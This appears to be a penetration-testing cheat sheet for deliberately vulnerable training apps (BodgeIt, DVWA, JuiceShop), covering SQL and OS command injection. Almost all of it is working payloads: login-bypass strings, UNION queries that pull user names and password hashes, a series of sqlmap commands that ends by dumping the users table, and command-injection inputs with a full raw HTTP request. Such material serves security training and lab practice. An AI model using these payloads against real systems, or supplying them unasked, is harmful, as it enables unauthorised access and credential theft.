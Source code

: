 # A1 - Injection


## SQL Injection

### BodgeIt 

BodgeIt login

`' or 1=1);--`

`admin@thebodgeitstore.com' or '1'='1);--`

### DVWA

**SQLi** on [DVWA](http://dvwa.lab/dvwa/vulnerabilities/sqli/)

```
1' or '1'='1
1' or 1=1#
1' union select null, version()#
1' union select null, concat(user(),0x0a,database())#
1' and 1=0 union select null, table_name from information_schema.tables#
1' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
1' and 1=0 union select null, concat(first_name,0x20,last_name,0x3a,user,0x3a,password) from users #
```

**Blind SQLi** on [DVWA](http://dvwa.lab/dvwa/vulnerabilities/sqli_blind/)

The value of `PHPSESSID` needs to be changed to your actual value.

```
sqlmap -u  "http://dvwa.lab/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit"  --cookie="PHPSESSID=m0om832mi963uuqftigjrk1n7j; security=low"

sqlmap -u  "http://dvwa.lab/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit"  --cookie="PHPSESSID=m0om832mi963uuqftigjrk1n7j; security=low" --dbs

sqlmap -u  "http://dvwa.lab/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit"  --cookie="PHPSESSID=m0om832mi963uuqftigjrk1n7j; security=low" -D dvwa --tables

sqlmap -u  "http://dvwa.lab/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit"  --cookie="PHPSESSID=m0om832mi963uuqftigjrk1n7j; security=low" -D dvwa -T users --columns

sqlmap -u  "http://dvwa.lab/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit"  --cookie="PHPSESSID=m0om832mi963uuqftigjrk1n7j; security=low" -D dvwa -T users --dump
```



### JuiceShop

JuiceShop login as `admin@juice-sh.op`

`' or true--`



## Command injection

Try it on `http://dvwa.lab/dvwa/vulnerabilities/exec/`

```
127.0.0.1;id
127.0.0.1&id
x||id
```

```
POST /dvwa/vulnerabilities/exec/ HTTP/1.1
Host: dvwa.lab
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dvwa.lab/dvwa/vulnerabilities/exec/
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: close
Cookie: security=high; PHPSESSID=1mdh1pt8dt42taesnorvlh9og2
Upgrade-Insecure-Requests: 1

ip=127.0.0.1%0d%0Aid&Submit=Submit
```
